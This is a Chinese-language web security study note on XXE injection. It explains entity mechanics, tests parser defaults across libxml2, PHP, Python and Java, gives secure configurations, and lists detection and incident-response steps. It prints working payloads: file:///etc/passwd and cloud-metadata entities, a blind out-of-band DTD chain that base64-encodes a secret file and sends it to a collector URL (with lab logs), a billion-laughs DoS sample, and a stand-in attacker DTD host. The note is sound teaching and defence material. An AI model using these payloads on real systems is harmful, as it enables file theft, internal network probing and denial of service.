

# 52. XXE：XML 外部实体注入

> 日期：2026-11-14
> 所属大纲阶段：3. Web 安全
> 参考资料：
> - OWASP《XML External Entity (XXE) Prevention Cheat Sheet》（`https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html`）
> - PortSwigger Web Security Academy — XML external entity (XXE) injection 专题（`https://portswigger.net/web-security/xxe`）
> - W3C《Extensible Markup Language (XML) 1.0》——实体声明（§4）、实体引用的处理模型（§4.4）、内部/外部 DTD 子集（§2.8），条文以规范原文为准（`https://www.w3.org/TR/REC-xml/`）
> - CWE-611（Improper Restriction of XML External Entity Reference），MITRE 官方条目
> - libxml2 官方文档与 xmllint 手册（`http://xmlsoft.org/`）
> - PHP 官方手册：LIBXML_* 常量（`https://www.php.net/manual/en/libxml.constants.php`）、libxml_disable_entity_loader（`https://www.php.net/manual/en/function.libxml-disable-entity-loader.php`）
> - Oracle JDK 文档：JAXP 安全处理（FEATURE_SECURE_PROCESSING 与 accessExternal* 属性，以所用 JDK 版本文档为准）
> - defusedxml（Python，`https://pypi.org/project/defusedxml/`）

---

## 0. 阅读前提与安全红线

- 读者画像：读过笔记 [13-CSRF-与-SSRF](./13-CSRF-与-SSRF.md)（SSRF 的危害模型）与 [48-文件包含-LFI-RFI](./48-文件包含-LFI-RFI.md)（「路径/标识符成为解释器输入」这一共同本质），最好补过 [15-反序列化漏洞](./15-反序列化漏洞.md) 的「数据即代码」直觉。
- **本篇全部 payload 与利用流程仅限本地靶场（自建 mini-lab、DVWA、vulhub、PortSwigger Labs 等）使用**；对真实第三方系统的探测与利用属违法行为。
- 本篇标注「实测」的命令输出均在本人环境实际运行：macOS（Apple Silicon），工具版本——`xmllint`（libxml 2.9.13）、PHP 8.4.12（编译/加载 libxml 2.9.13）、Python 3.15.0（标准库 expat 2.7.4）、OpenJDK 21.0.11。标注「示意」的输出不是实测，仅用于说明形态；凡涉及「某版本默认值」的结论，都以官方文档为准，不凭记忆断言。

---

## 1. 定义：一句话本质

**XXE（XML External Entity Injection，XML 外部实体注入，CWE-611）**：程序解析**用户可控的 XML 输入**时，允许其中的 DTD 声明**外部实体**，并把实体引用展开为「解析器代替攻击者去访问的那个 URI」——文件读取、内网请求由此产生。

与相邻概念划清边界：

- 与 **SSRF（笔记 13 §9）**：XXE 是 SSRF 的一个「入口协议」——SSRF 讲「控制服务器发请求」这个**结果**，XXE 讲「借 XML 实体机制这个**通道**」。危害模型（内网探测、file:// 读文件、打云元数据）完全复用笔记 13 §9.2 的分层。
- 与 **文件包含（笔记 48）**：LFI 把路径喂给「加载执行」的语句；XXE 把 URI 喂给「实体解析器」。一个走语言运行时，一个走 XML 解析器配置，共同点是**输入穿透到了带 I/O 能力的解释层**。
- 与 **XSS/注入类**：XXE 不是把输入当代码，而是**把输入当声明**——攻击者写的不是 payload，是一段 DTD。

一句话本质：**实体是 XML 的「宏」；XXE 就是让目标替你展开一个指向任意 URI 的宏**。

---

## 2. 原理：XML 实体机制（本篇的地基）

### 2.1 四类实体与语法

DTD（文档类型定义）里的 `<!ENTITY>` 声明按两个正交维度分四类（通用/参数 × 内部/外部）：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!-- ① 内部通用实体：值就在声明里，纯文本宏 -->
  <!ENTITY name "Alice">

  <!-- ② 外部通用实体：SYSTEM 指向一个 URI，解析器去取（file://、http://、ftp://、php://filter…） -->
  <!ENTITY xxe SYSTEM "file:///etc/passwd">

  <!-- ③ 内部参数实体：以 % 声明、以 %xxx; 引用，只在 DTD 内部使用 -->
  <!ENTITY % inner "hello">

  <!-- ④ 外部参数实体：DTD 阶段就会被取回并解析成更多声明 -->
  <!ENTITY % remote SYSTEM "http://attacker-lab/evil.dtd">
]>
<root>&name; &xxe;</root>
```

| 维度 | 通用实体（general） | 参数实体（parameter） |
| --- | --- | --- |
| 声明/引用形式 | `<!ENTITY e "...">` / 文档内容里 `&e;` | `<!ENTITY % e "...">` / DTD 里 `%e;` |
| 生效范围 | 文档内容、属性值 | **仅 DTD 内部**，进不了文档内容 |
| 解析时机 | 文档处理阶段（内容被读到时） | **DTD 处理阶段（声明之间）** |

`PUBLIC` 形式（`<!ENTITY e PUBLIC "公开标识" "URI">`）只是带目录查找的外部实体的另一种写法，攻击语义同 `SYSTEM`。

### 2.2 解析时机：两条时间线

理解 XXE 的一切绕过技巧，只需要记住两条时间线：



- **参数实体在 DTD 阶段展开**：只要解析器允许加载外部 DTD/外部参数实体，攻击者就能让「读文件、发请求」发生在**碰都不碰文档内容**的情况下——这是盲 XXE 的根基；
- **通用实体在文档阶段展开**：`&xxe;` 写在被解析的内容位置才会触发；「声明了但没人引用」的外部通用实体默认根本不会去取（实测见 §3.1，xmllint 默认输出里 `&xxe;` 原样保留）。

### 2.3 关键限制与参数实体的「绕过」（本篇最重要的原理）

盲 XXE 场景：服务端把你的输入放进 XML 的某个固定位置，**你控制不了文档内容去写 `&e;`**，只能控制 DOCTYPE/DTD。此时必须让整条链在 DTD 阶段完成，而 XML 规范（§2.8 与 §4.4 的处理模型，条文以 W3C 原文为准）设了两道门槛：

**门槛 1：内部子集里，参数实体引用不能出现在标记声明内部。**
在 `<!DOCTYPE [...]>` 内部子集里把参数实体链直接写完，会直接被解析器拒绝（实测）：

```xml
<!DOCTYPE r [
<!ENTITY % file SYSTEM "file:///tmp/xxe-lab/secret.txt">
<!ENTITY % eval "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1:18099/x?d=%file;'>">
%eval;
%send;
]>
```

```text
# xmllint --noent（libxml 2.9.13，实测）
pe_internal.xml:4: parser error : PEReferences forbidden in internal subset
pe_internal.xml:5: parser error : PEReference: %eval; not found
# Python expat 2.7.4（实测）
ParseError: illegal parameter entity reference: line 4, column 72
```

**门槛 2：实体值里的引用，在 DTD 解析阶段不会去加载外部实体。**
「外部实体值不能再引用外部实体」的准确机制是：实体值中出现的实体引用在声明阶段被**原样保存**（不在此时取回外部内容），真正的加载推迟到该实体**在内容中被引用**时。实测通用实体链（`&b;` 的值是 `&a;`，`a` 是外部实体）在 `--noent` 下最终能展开出文件内容——前提是**内容里有 `&b;` 这个引用点**。盲场景没有这个引用点，此路不通。

**参数实体 + 外部 DTD 如何同时跨过两道门槛：**

1. 把 DTD 声明放到**外部 DTD 子集**（`<!DOCTYPE r SYSTEM "http://attacker-lab/evil.dtd">`）——外部子集不受门槛 1 约束，参数实体可以在**声明之间**自由引用与展开；
2. 参数实体本来就工作在 DTD 阶段——不需要文档内容里的引用点，跨过门槛 2；
3. 一个必须的转义技巧：`%eval;` 的值里要写 `&#37;` 而不是 `%`（实体值里的参数实体引用不展开，用 `%` 的**字符引用**，让它在展开成新声明时才变成真正的 `%`），从而实现「用一个参数实体动态生成另一个实体声明」——三级火箭 `%file; → %eval; → %send;`（完整实测见 §5.2）。

一句话：**通用实体的展开权在文档作者手里，参数实体的展开权在 DTD 作者（攻击者）手里；外部 DTD 让后者完全脱离前者独立完成读取与外带。**

---

## 3. 攻击面一：经典 XXE 文件读取（mini-lab 实测）

### 3.1 libxml2 / xmllint：三个开关三种命运

```text
$ xmllint --version
xmllint: using libxml version 20913
$ cat classic.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///tmp/xxe-lab/secret.txt">
]>
<root>&xxe;</root>

# ① 默认：不替换实体（引用原样保留，外部内容根本没取）
$ xmllint classic.xml
... <root>&xxe;</root>

# ② --noent（NOENT = 替换实体）：文件被读出
$ xmllint --noent classic.xml
... <root>LAB-SECRET-TOKEN-2026
</root>

# ③ 外部 DTD 变体默认不加载，需要 --loaddtd 配合
$ xmllint --noent --loaddtd pe.xml        # pe.xml 的 DOCTYPE SYSTEM 指向本地/远程 DTD
... <root>LAB-SECRET-TOKEN-2026
</root>
```

结论（针对本机 libxml 2.9.13）：**libxml2 默认既不替换实体也不加载外部 DTD，需要应用层显式传 `XML_PARSE_NOENT` / `XML_PARSE_DTDLOAD` 类开关才会中招**。新版 libxml2（2.12 之后）对默认值与协议支持仍在调整（如网络协议的收紧），跨版本行为以官方 NEWS 与文档为准。

### 3.2 PHP 8：危险的不是默认，是 LIBXML_NOENT

```php
<?php
$xml = file_get_contents('classic.xml');   // 同 §3.1 的经典文件读取 payload
$doc = new DOMDocument();
$doc->loadXML($xml);
echo "default: ", json_encode($doc->documentElement->textContent), "\n";

$doc2 = new DOMDocument();
$doc2->loadXML($xml, LIBXML_NOENT);
echo "NOENT:   ", json_encode($doc2->documentElement->textContent), "\n";
```

```text
$ php xxe.php          # PHP 8.4.12（libxml 2.9.13，实测）
default: ""
NOENT:   "LAB-SECRET-TOKEN-2026\n"
```

- PHP 8 的 DOM/SimpleXML/XMLReader 家族**默认不替换实体**——旧时代「PHP 一开 libxml 就能读文件」的印象来自 libxml2 < 2.9 的行为与旧代码显式传 `LIBXML_NOENT | LIBXML_DTDLOAD`；
- `libxml_disable_entity_loader()` 的历史：它是 libxml2 < 2.9 时代的补丁函数；**PHP 8.0 起弃用**（实测调用得到 `Deprecated: ... external entity loading is disabled by default`），语义上它**从未管住过 `LIBXML_NOENT` 的主动替换**——防 XXE 的正解是「别传 NOENT/DTDLOAD」，而不是「调了那个弃用函数就安全」；
- 外部 DTD 变体需要 `LIBXML_NOENT | LIBXML_DTDLOAD` 同时在场（实测单独 NOENT 会报 `Entity 'send' not defined`）。

### 3.3 Python 标准库：默认安全，但开关离危险只有一行

```text
$ python3 -I xxe_stdlib.py     # Python 3.15.0（expat 2.7.4，实测）
[1] ElementTree.fromstring 默认:
  -> ParseError: undefined entity &xxe;: line 5, column 6
[2] xml.sax 默认 (feature_external_ges = 0 ):
  -> 解析完成，实体引用被静默跳过（无 characters 输出）
[3] xml.sax 打开 external_ges（危险对照）:
  -> characters(): 'LAB-SECRET-TOKEN-2026'
  -> 解析完成
```

- `xml.etree.ElementTree` / `xml.dom.minidom`：遇到未在内部子集解析的外部实体直接 `ParseError`——**默认不解析外部实体**；
- `xml.sax`：`feature_external_ges` 默认为 0，实体被**静默跳过**；把它置 True 就是文件读取（危险对照）。官方对标准库 XML 模块的立场是「按文档它们不算安全组件」——防御上的正解是用 `defusedxml`（§9.2）。

### 3.4 Java：四个生态里默认最危险的一个（实测）

```java
DocumentBuilderFactory f = DocumentBuilderFactory.newInstance();
Document d = f.newDocumentBuilder().parse(new File("classic.xml"));
System.out.println(d.getDocumentElement().getTextContent());
```

```text
$ java XxeTest.java           # OpenJDK 21.0.11，实测
[1] default              -> text=[LAB-SECRET-TOKEN-2026
]
[2] secure-processing    -> SAXParseException: 外部实体: 无法读取外部文档 'secret.txt',
                            因为 accessExternalDTD 属性设置的限制导致不允许 'file' 访问。
[3] disallow-doctype-decl -> SAXParseException: ... 不允许使用 DOCTYPE
```

- **JDK 的 `DocumentBuilderFactory`/`SAXParser` 默认会解析外部通用实体**（对基于 Xerces 的 JAXP 默认实现，实测 JDK 21 依然如此）——Java 生态 XXE 高发的根因就在这；
- `FEATURE_SECURE_PROCESSING=true` 会把 `accessExternalDTD/SCHEMA` 收紧为全拒绝（本机实测连 `file:` 都被拒），但**它不等于禁 DTD**（DOCTYPE 仍可进入，内部实体展开与 DoS 面仍在）；
- 最强开关是 `disallow-doctype-decl`（见 §9.2）。同一 JVM 上不同解析栈（JAXP DOM/SAX/StAX、 JAXB、XPath、Xerces 原生 API）默认行为有差异，逐栈核对，以所用 JDK 的 JAXP 文档为准。

### 3.5 解析器默认行为对照表

> 表中「实测」行为对应本机版本（libxml 2.9.13 / PHP 8.4.12 / Python 3.15 / JDK 21.0.11）；**任何「我这边是什么默认」的结论都以官方文档 + 目标实际版本为准**，这张表的用法是告诉你**该去查哪个开关**。

| 解析器 | 默认是否解析外部实体 | 危险开关（打开即中招） | 安全开关（见 §9.2 代码） |
| --- | --- | --- | --- |
| libxml2（xmllint 实测） | 否（不替换、不加载外部 DTD） | `XML_PARSE_NOENT`、`--loaddtd`；`--huge` 还会放开 DoS 限制（§6 实测） | 默认即可；显式不传 NOENT/DTDLOAD |
| PHP 8（DOM/SimpleXML，实测） | 否 | `LIBXML_NOENT`、`LIBXML_NOENT\|LIBXML_DTDLOAD` | 默认即可；`libxml_disable_entity_loader` 已弃用且不是正解 |
| Java（JAXP DOM/SAX，实测） | **是（默认危险）** | 默认即危险 | `disallow-doctype-decl=true`（最优）；`accessExternal*=""`；FSP |
| Python（stdlib expat，实测） | 否（ElementTree 报错 / sax 跳过） | `setFeature(feature_external_ges, True)` | 用 `defusedxml` 包装 |
| Python lxml | 以官方文档为准 | `resolve_entities=True`、`no_network=False` 一类选项组合 | `resolve_entities=False` + defusedxml 思路 |
| .NET（XmlReader 系） | 以微软文档为准（现代 .NET 对 DTD 默认从严） | 显式 `DtdProcessing.Parse` + 开放 resolver | `DtdProcessing.Prohibit/Ignore` |
| Go（encoding/xml） | 不解析外部实体（语言级无 DTD 外部加载；以标准库文档为准） | —— | 默认即安全面 |

攻击面小结（把四个实测连成一句话）：**XXE 是否成立几乎完全取决于「应用把解析器配置成了什么」**——审计时第一件事就是找那行配置，而不是盯着 payload。

---

## 4. 攻击面二：XXE → SSRF（联动笔记 13）

外部实体的 SYSTEM 是一个 **URI**，协议处理能力取决于解析器与运行环境（libxml2 内建 file/http/ftp，PHP 场景叠加全部流包装器——笔记 48 §2.1）。于是 XXE 天然是一台「协议受限于解析器」的 SSRF 发动机：

```xml
<!-- 内网探测：实体是否解析成功/报错差异 = 端口开关 -->
<!ENTITY x SYSTEM "http://192.168.1.10:6379/">
<!-- 云元数据：笔记 13 §9.3 的整套危害模型平移过来 -->
<!ENTITY x SYSTEM "http://169.254.169.254/latest/meta-data/">
<!-- Windows 目标的历史路径（示意） -->
<!ENTITY x SYSTEM "file:///c:/windows/win.ini">
```

- **探测方式（靶场）**：有回显——响应里直接带内容；无回显——用报错差异/响应时间做布尔 oracle，或转 §5 盲打；
- **危害分层完全复用 [13 册 §9.2](./13-CSRF-与-SSRF.md)**：任意 URL 探测 → file:// 读文件 → 云元数据拿临时凭证 → 打内网未鉴权服务。XXE 版 SSRF 与普通 SSRF 的差别在于**请求形态受限于实体机制**（多为 GET、难带自定义头），防御却是同一套：解析器禁实体（根治）+ 出网管控（兜底，13 册 §11.3）；
- **协议矩阵速记**：`file://`（读文件，最普适）、`http(s)://`（探测/外带）、`ftp://`（外带变体，部分环境可绕出站策略）、`php://filter`（PHP 独有，读源码/编码外带——§5.2 实测用了它）、`expect://`（需 PHP expect 扩展，加载即 RCE，属配置事故面）。gopher 在 libxml2 生态不原生支持，「SSRF 武器化协议」的完整讨论见笔记 13 §9.4；
- **与文件包含的分工**：同为「读文件」，LFI（[48 册](./48-文件包含-LFI-RFI.md)）在 PHP 里可升级为执行（包装器 + filter chain），XXE 的读取一般停在数据外带——但两者常在同一个应用里共存（上传 DOCX/XLSX/SVG 后台解析、导入 XML 配置）。

---

## 5. 攻击面三：盲 XXE（无回显的两条出路）

### 5.1 场景与判断

服务端解析 XML 但**不把结果写回响应**（导入功能、SOAP 接口、SAML 断言处理）。判断是否存在解析点：DOCTYPE/ENTITY 是否引发差异报错、外部实体指向的本地 `http://127.0.0.1:<自建端口>` 是否收到连接（靶场内自证）。

### 5.2 出路一：参数实体 OOB 外带（完整实测）

受害者侧（PHP 8.4.12，`LIBXML_NOENT | LIBXML_DTDLOAD`——外部 DTD 变体两个开关都要在场）：

```xml
<?xml version="1.0"?>
<!DOCTYPE r SYSTEM "http://127.0.0.1:18099/oob.dtd">
<r>&send;</r>
```

攻击者侧 `oob.dtd`（三级火箭，原理见 §2.3）：

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/tmp/xxe-lab/secret.txt">
<!ENTITY % eval "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1:18099/collect?d=%file;'>">
%eval;
%send;
```

```text
$ php blind.php; sleep 1     # 实测（攻击者侧 python3 -m http.server 18099）
# 受害者进程的报错（正是第一步取 file 失败前的中间产物，数据已拼进 URL）：
Warning: DOMDocument::loadXML(http://127.0.0.1:18099/collect?d=TEFCLVNFQ1JFVC1UT0tFTi0yMDI2Cg==):
         Failed to open stream: HTTP request failed! HTTP/1.0 404 File not found
# 攻击者侧 server.log（外带成功，URL 参数即 Base64 的文件内容）：
127.0.0.1 - - [14/Nov/2026 00:55:41] "GET /collect?d=TEFCLVNFQ1JFVC1UT0tFTi0yMDI2Cg== HTTP/1.1" 404 -
```

三个实战细节（靶场经验，此处均有实测支撑）：

1. **为什么套 `php://filter` base64**：直接 `%file;` 读原始文件时，文件内容里的换行/空格会污染 URI——实测裸读得到报错 `Invalid URI: ...collect?d=LAB-SECRET-TOKEN-2026`（请求根本发不出去）；base64 后 URI 干净。非 PHP 环境没有 filter，就换 ftp:// 或分段技巧；
2. **404 无所谓**：外带的成功标志是攻击者服务器**收到请求行**，`%send;` 本身不需要成功返回；
3. **错误信息即数据**：上面那条 Warning 把带数据的完整 URL 打进了错误日志——即便出网被拦，「报错里出现文件内容」本身就是泄露面（见 5.3）。

### 5.3 出路二：错误通道（XXE Oracle）

出网被禁时，把「要问的问题」变成「让解析器报不报错/报什么错」：外部 DTD 里用参数实体把目标文件内容拼进**下一个 SYSTEM URI** 或声明里，内容不同 → 解析器报错内容不同 → 响应/日志差异回传一个 bit。逐字符猜内网端口、判文件存在性都可行。防御视角：这类通道依赖应用**把解析器错误细节透传给用户**——错误信息最小化（通用错误页）同时压掉 XXE oracle 与笔记 11 的报错注入两条路。

---

## 6. 攻击面四：亿万笑声（billion laughs）DoS

实体是递归宏 → 声明嵌套引用就能指数放大（CWE-776 类问题，XXE 家族的可用性攻击面）：

```xml
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!-- ... 每层 ×10，第 9 层展开 = 10 亿个 "lol"（数十 GB 内存） -->
]>
<lolz>&lol9;</lolz>
```

```text
$ xmllint laughs.xml          # libxml 2.9.13，实测（6 层演示版）
laughs.xml:13: parser error : Detected an entity reference loop
$ xmllint --huge laughs.xml   # 实测：--huge（XML_PARSE_HUGE）放开了防护，可完整展开
（正常输出，无报错）
```

- 现代解析器大多内置实体扩增/循环防护（libxml2 实测拦截；expat 亦在 2.4.0 前后加入扩增限制，阈值与开关以各自发布说明为准——本机 expat 对 5 层嵌套不报错，说明阈值比 libxml2 宽）；
- **应用的「超大输入解析」与 `--huge` 类开关是同样的自杀阀门**；一元二次放大（quadratic blowup，大量重复实体引用而非嵌套）绕的是「嵌套深度」型检测；
- 防御一句话：**禁 DTD（§9.1）对 billion laughs 同样一击致命**——它是比「禁外部实体」更优的总开关，DoS 面顺带消失。

---

## 7. DTD 中的变体与真实入口

- **XInclude**：应用先安全地解析了 XML，又在后续 `xi:include` 处理里加载外部资源（`href="file:///etc/passwd"`）——禁了 DTD 也挡不住它，需要单独关闭/白名单 XInclude 处理（Java：`factory.setXIncludeAware(false)`）；
- **SVG 上传**：SVG 是 XML。允许用户上传 SVG 且服务端/前端会解析它（预览、转码、防病毒扫描走 XML 解析器）就存在 XXE 面——与笔记 14 的上传防御联动（重命名+隔离存储不解决「内容被解析」这件事，解析器配置才是根修）；
- **XML 容器格式**：DOCX/XLSX/ODF 是 zip 包着的 XML。企业应用的「上传 Excel 导入」「在线预览 Office」链路里，真正吃 XML 的可能是第三方库——审计要追到**最终解析器**那一层；
- **SOAP / SAML / XML-RPC**：协议消息体是 XML，历史上 XXE 高发（SAML 断言、SSO 网关）。遇到自研 XML 网关/消息校验层，按 §3.5 逐解析器核对；
- **框架反序列化联动**：Java 生态里 JAXB/XStream 等以 XML 为载体的数据绑定层同样可能触达实体解析（思路同 [15 册反序列化](./15-反序列化漏洞.md)：数据绑定层的默认配置是事故高发区）。

---

## 8. 与站内笔记的互链地图

| 主题 | 去哪里 |
| --- | --- |
| SSRF 危害分层、云元数据、出网管控防御 | [13-CSRF-与-SSRF](./13-CSRF-与-SSRF.md) §9—§11（CORS 在该册 §8，无需重复） |
| 读文件的另一条路：路径穿越/包装器/升级 RCE | [48-文件包含-LFI-RFI](./48-文件包含-LFI-RFI.md) |
| 读到会话凭证/令牌之后的事：会话攻击面与轮换 | [16-认证与会话管理](./16-认证与会话管理.md) §10、JWT 泄露面 §9 |
| 上传文件的存储隔离（SVG/Office 文档入口） | [14-文件上传漏洞](./14-文件上传漏洞.md)（本册 §7 入口联动） |
| 数据绑定层「数据即代码」的同类直觉 | [15-反序列化漏洞](./15-反序列化漏洞.md) |

---

## 9. 防御专章（重点）

### 9.1 优先级：禁 DTD > 禁外部实体 > 校验 > 网络兜底

1. **禁 DTD（最优）**：业务不需要 DOCTYPE（绝大多数场景）就彻底拒绝——同时消灭 XXE、参数实体、billion laughs、外部 DTD 四个面；
2. **禁外部实体/外部 DTD 加载**：确实需要内部 DTD（实体复用、校验）时，只关外部加载；
3. **白名单校验**：XML 输入先过 schema/结构校验再进解析器；接收格式能换 JSON 就换 JSON；
4. **网络兜底**：即使配置失误，出网管控（统一出口、内网默认拒绝）把爆炸半径压到内网探测以内（13 册 §11.3 同款）。

### 9.2 各语言安全配置（可直接抄）

**Java（最优：禁 DOCTYPE；DOM/SAX/StAX 各栈都要设）**

```java
DocumentBuilderFactory f = DocumentBuilderFactory.newInstance();
// 最优：完全禁 DTD（内部实体一并拒绝，XXE/DoS 双杀）
f.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
// 次优：需要 DTD 时，切断一切外部访问
f.setFeature("http://xml.org/sax/features/external-general-entities", false);
f.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
f.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, "");
f.setAttribute(XMLConstants.ACCESS_EXTERNAL_SCHEMA, "");
f.setXIncludeAware(false);
f.setExpandEntityReferences(false);
// 纵深：安全处理模式（限制+切断外部访问，但不替代上面两项）
f.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
```

**PHP（默认已安全，守住两个开关）**

```php
<?php
// 正确姿势：什么都不传（默认不替换实体、不加载外部 DTD）
$doc = new DOMDocument();
$ok  = $doc->loadXML($xml);              // 外部实体不会被解析
// 危险姿势（仅靶场复现用）：LIBXML_NOENT（替换实体）、LIBXML_DTDLOAD（外部 DTD）
// 历史包袱：libxml_disable_entity_loader() 在 PHP 8.0+ 已弃用（默认即禁外部实体加载），
// 它从来不是防 XXE 的正解——审计时看到它别误判为"已防护"。
```

**Python（标准库不设防心态，用 defusedxml）**

```python
# pip install defusedxml
from defusedxml import ElementTree as SafeET   # drop-in 替换 xml.etree.ElementTree
root = SafeET.fromstring(xml)                   # DTD/实体相关攻击被拦截并抛 DefusedXmlException

# 若只能用标准库：绝不调用 setFeature(feature_external_ges/external_pes, True)，
# 并把 xml.sax/xml.dom.minidom 视为「默认安全但开关极易被打开」的组件对待。
```

**libxml2（C/绑定层）**：不设置 `XML_PARSE_NOENT`、`XML_PARSE_DTDLOAD`、`XML_PARSE_DTDVALID`（校验会拉 DTD）、`XML_PARSE_HUGE`；新版还提供 `XML_PARSE_NOENT` 的替代与网络开关，以所用版本文档为准。

**.NET / Go / Rust**：以官方文档为准——现代 .NET `XmlReaderSettings.DtdProcessing` 默认从严（Prohibit/Ignore），Go 标准库不解析外部实体；防御动作是「确认你没有显式打开 DTD 解析/resolver」。

### 9.3 输入设计与白名单校验

- 入口最小化：能收 JSON 不收 XML；必须收 XML 时，用 XSD/结构校验先拒掉 DOCTYPE（校验层白名单「允许出现的元素/属性」，DOCTYPE 天然不在名单里）；
- 文件上传链路（SVG/Office）：内容扫描层也要按 §9.2 配置它背后的解析器；上传物静态化存储（14 册）；
- 内部系统间 SOAP/XML 接口：默认配置 ≠ 安全配置，逐客户端 SDK 核对（Java 系客户端是重灾区）。

### 9.4 防御检查清单

- [ ] 全局检索 XML 解析点：`DocumentBuilderFactory|SAXParser|XMLReader|loadXML|simplexml|xml.sax|etree|lxml|XmlDocument|XmlReader|xmlParse`，逐个核对解析器配置
- [ ] Java 侧：全部解析栈禁 DOCTYPE 或关闭外部实体/参数实体 + `accessExternal*` 置空
- [ ] PHP 侧：确认无 `LIBXML_NOENT`/`LIBXML_DTDLOAD` 传入；弃用的 `libxml_disable_entity_loader` 调用从代码与审计模板里清除
- [ ] Python 侧：XML 入口统一 defusedxml；CI 里 grep `feature_external_ges`/`resolve_entities`
- [ ] 上传/导入链路（SVG、DOCX/XLSX、SOAP、SAML）追到最终解析器，覆盖第三方库默认值
- [ ] 出网管控：应用服务器无直连外网权限、内网访问白名单化（XXE→SSRF 兜底）
- [ ] 错误处理：解析器异常不透传细节给用户（压掉错误通道）
- [ ] WAF/应用侧对 XML 载荷监控 `<!DOCTYPE`、`<!ENTITY`、`SYSTEM`、`%eval` 模式（纵深告警，不作主防御）
- [ ] DoS 面：限制 XML 请求体大小与解析时限；不开启 `--huge`/`XML_PARSE_HUGE` 类开关

---

## 10. 检测与应急

**日志特征（攻击者侧视角的痕迹，防御者反向利用）**：

```text
应用/WAF 层：请求体含 <!DOCTYPE ... [ ... <!ENTITY ... SYSTEM ...>（内部子集直接可判）
             或 <!DOCTYPE r SYSTEM "http://...">（外部 DTD，指向陌生域名）
出网流量：应用服务器向陌生地址发起 GET，URI 形如 /xxx.dtd、/collect?d=<base64>
行为特征：同一入口的 XML 载荷反复变换 SYSTEM URI（内网网段/端口枚举）
报错日志："Entity ... not defined"、"Invalid URI"、外部实体加载失败类错误成串出现
```

**应急流程**（对齐 [34 册应急响应](../06-security-engineering/34-应急响应基础.md) 的识别→遏制→根除框架）：

1. 定位入口：哪个接口/文件在解析 XML、用的哪个解析器与配置；
2. 评估外带：出网流量里搜 `.dtd`/`collect` 类 URI，确认是否已发生数据外带（外带内容在 URL 里 → 按 13 册 §12 的元数据泄露处置，凭证按 [32 册](../06-security-engineering/32-密钥管理.md) 轮换）；
3. 短期缓解：WAF 拦 DOCTYPE/ENTITY 模式；必要时临时关闭该解析功能；
4. 根修：按 §9.1/9.2 重配解析器（禁 DTD 优先）；
5. 复盘：把该入口的 payload 集加进回归用例与 CI 的 XML 配置检查项。

---

## 11. 常见误区

| 误区 | 事实 |
| --- | --- |
| 「XXE 是老漏洞，现代解析器默认都安全」 | Java JAXP 默认仍解析外部实体（§3.4 实测）；「默认安全」只在部分生态成立，且一个 NOENT 开关就能破功 |
| 「调用了 libxml_disable_entity_loader 就是已防护」 | PHP 8.0 起弃用；它管不住 `LIBXML_NOENT` 的主动替换（§3.2） |
| 「过滤掉 `<!ENTITY` 字符串就安全了」 | 编码/拆分/CDATA 外声明可绕过内容过滤；且外部 DTD 变体只需要 `<!DOCTYPE ... SYSTEM>` 一行（§5.2） |
| 「无回显就无危害」 | 盲 XXE 的 OOB 外带与错误通道实测可行（§5）；纯探测不外带也能给攻击者画内网地图 |
| 「XXE 只能读文件」 | 它本质是 SSRF：内网探测、云元数据、（PHP expect 等配置事故下）RCE（§4） |
| 「禁了外部实体就完了」 | XInclude、billion laughs（纯内部实体）不走外部实体通道（§6、§7）；禁 DTD 才是总闸 |
| 「JSON API 时代不需要学这个」 | SOAP/SAML/Office 文档/SVG/各类 XML 配置与日志栈仍在解析 XML；历年均有知名组件因解析默认值中招（具体案例以各产品公告为准，不在此点名编号） |

---

## 12. 自测问题

1. 画出四类实体（通用/参数 × 内部/外部）的声明与引用语法，并说明各自的**解析时机**分别在 DTD 阶段还是文档阶段。
2. 用自己的话讲清：为什么盲 XXE 的参数实体链必须放在**外部 DTD** 里？（提示：内部子集的两道门槛，§2.3 实测报错是什么）
3. `&#37;` 在 `%eval;` 的值里为什么必须写成字符引用？它解决的是哪个阶段的解析问题？
4. libxml2 家族里 `XML_PARSE_NOENT`、`XML_PARSE_DTDLOAD`、`XML_PARSE_HUGE` 各打开了什么面？PHP 对应哪两个常量？
5. Java 防御为什么优先 `disallow-doctype-decl` 而不是 `FEATURE_SECURE_PROCESSING`？后者管不住什么？
